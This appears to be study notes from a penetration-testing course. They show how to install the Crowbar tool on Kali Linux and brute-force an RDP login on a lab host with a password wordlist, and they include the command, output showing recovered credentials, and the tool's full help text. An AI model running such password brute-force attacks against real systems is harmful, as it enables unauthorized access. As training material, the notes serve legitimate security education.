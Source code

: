 • First let’s install Crowbar from the Kali repository:
 
 kali@kali:~$ sudo apt install crowbar
Reading package lists... Done
Building dependency tree
Reading state information... Done
...
 
• To invoke crowbar, we will specify the protocol (-b), the target server (-s), a username (-u), awordlist (-C), and the number of threads (-n) as shown in Listing 606:
 
 kali@kali:~$ crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
2019-08-16 04:51:12 START
2019-08-16 04:51:12 Crowbar v0.3.5-dev
2019-08-16 04:51:12 Trying 10.11.0.22:3389
2019-08-16 04:51:13 RDP-SUCCESS : 10.11.0.22:3389 - admin:Offsec!
2019-08-16 04:51:13 STOP
 
 -u = username
 -n = threads
 -C = password list
 
• Note that Crowbar discovered working credentials for the “admin” user.

• We specified a singlethread since the remote desktop protocol does not reliably handle multiple threads.
 
• To view additional supported protocols we can run crowbar with the --help flag:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/36.jpg)

kali@kali:~$ crowbar --help
usage: Usage: use --help for further information
Crowbar is a brute force tool which supports OpenVPN, Remote Desktop Protocol,
SSH Private Keys and VNC Keys.
positional arguments:
 options
optional arguments:
 -h, --help show this help message and exit
 -b {vnckey,sshkey,rdp,openvpn}, --brute {vnckey,sshkey,rdp,openvpn}
 Target service
 -s SERVER, --server SERVER
 Static target
 -S SERVER_FILE, --serverfile SERVER_FILE
 Multiple targets stored in a file
 -u USERNAME [USERNAME ...], --username USERNAME [USERNAME ...]
 Static name to login with
 -U USERNAME_FILE, --usernamefile USERNAME_FILE
  Multiple names to login with, stored in a file
 -n THREAD, --number THREAD
 Number of threads to be active at once
 -l FILE, --log FILE Log file (only write attempts)
 -o FILE, --output FILE
 Output file (write everything else)
 -c PASSWD, --passwd PASSWD
 Static password to login with
 -C FILE, --passwdfile FILE
 Multiple passwords to login with, stored in a file
 -t TIMEOUT, --timeout TIMEOUT
 [SSH] How long to wait for each thread (seconds)
 -p PORT, --port PORT Alter the port if the service is not using the default
 value
 -k KEY_FILE, --keyfile KEY_FILE
 [SSH/VNC] (Private) Key file or folder containing
multiple files
 -m CONFIG, --config CONFIG
 [OpenVPN] Configuration file